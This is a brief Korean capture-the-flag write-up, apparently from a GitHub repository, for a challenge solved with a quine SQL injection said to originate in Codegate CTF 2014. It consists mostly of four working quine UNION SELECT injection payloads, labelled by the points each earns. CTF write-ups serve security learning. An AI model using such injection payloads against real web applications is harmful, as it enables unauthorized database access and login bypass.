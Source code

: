 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**

![](images/2022-01-03-03-22-10.png)


# **Write-Up**

Quine SQLi를 사용하면 되는 문제로서, Codegate CTF 2014에 나왔다고 한다.

    ' union select replace(replace('" union select replace(replace("$",char(34),char(39)),char(36),"$")%23',char(34),char(39)),char(36),'" union select replace(replace("$",char(34),char(39)),char(36),"$")%23')%23

![](images/2022-01-03-03-22-31.png)

    55점 쿼리 : 'union select replace(replace('"union select replace(replace("$",char(34),char(39)),char(36),"$")%23',char(34),char(39)),char(36),'"union select replace(replace("$",char(34),char(39)),char(36),"$")%23')%23

    235점 쿼리 : 'union select replace(replace('"union select replace(replace("$",0x22,0x27),0x24,"$")%23',0x22,0x27),0x24,'"union select replace(replace("$",0x22,0x27),0x24,"$")%23')%23

    250점 쿼리 : 'union select replace(replace('"union select replace(replace("%01",0x22,0x27),0x1,"%01")%23',0x22,0x27),0x1,'"union select replace(replace("%01",0x22,0x27),0x1,"%01")%23')%23